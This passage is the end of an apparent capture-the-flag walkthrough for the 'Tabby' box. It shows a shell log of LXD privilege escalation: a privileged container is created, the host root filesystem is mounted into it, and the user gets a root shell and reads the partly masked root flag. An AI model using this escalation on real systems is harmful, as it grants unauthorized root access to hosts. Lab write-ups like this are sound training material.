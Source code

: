 ```shell
liquid                                                                                                                                                                                                           
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]:                                                                                                                                                 
                                                                                                                                                                                                                                           
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]:                                                                                                                                                 
                                                                                                                                                                                                                                           
Would you like LXD to be available over the network? (yes/no) [default=no]:                                                                                                                                                                
                                                                                                                                                                                                                                           
Would you like stale cached images to be updated automatically? (yes/no) [default=yes]                                                                                                                                                     
                                                                                                                                                                                                                                           
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]:                                                                                                                                                             

ash@tabby:~$ lxc init liquid privesc -c security.privileged=true
lxc init liquid privesc -c security.privileged=true
Creating privesc

ash@tabby:~$ lxc config device add privesc mydevice disk source=/ path=/mnt/root recursive=true
<ydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to privesc

ash@tabby:~$ lxc start privesc
lxc start privesc

ash@tabby:~$ lxc exec privesc /bin/sh
lxc exec privesc /bin/sh
~ # id        
id 
uid=0(root) gid=0(root)

~ # cd /mnt/root
cd /mnt/root
/mnt/root # /mnt/root # cat root/root.txt
cat root/root.txt
49086b9c1747f*******************
```

And we pwned the Box !

Thanks for reading, Suggestions & Feedback are appreciated !
